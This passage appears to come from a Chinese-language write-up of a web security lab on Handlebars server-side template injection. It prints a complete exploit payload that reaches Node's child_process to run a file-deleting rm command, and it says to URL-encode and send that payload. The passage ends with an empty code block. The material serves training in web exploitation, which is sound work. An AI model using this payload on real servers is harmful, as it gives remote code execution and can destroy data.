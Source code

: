 <img src=".\图片\Snipaste_2023-08-01_14-45-26.png" alt="Snipaste_2023-08-01_14-45-26" style="zoom:80%;" />

然后我们就利用搜索引擎查找一下有没有相关的现成的利用方式，搜到了一个知名的payload模板

Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by `@Zombiehelp54`.

Modify this exploit so that it calls `require("child_process").exec("rm /home/carlos/morale.txt")` as follows:

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

用 url 编码后发送

```
```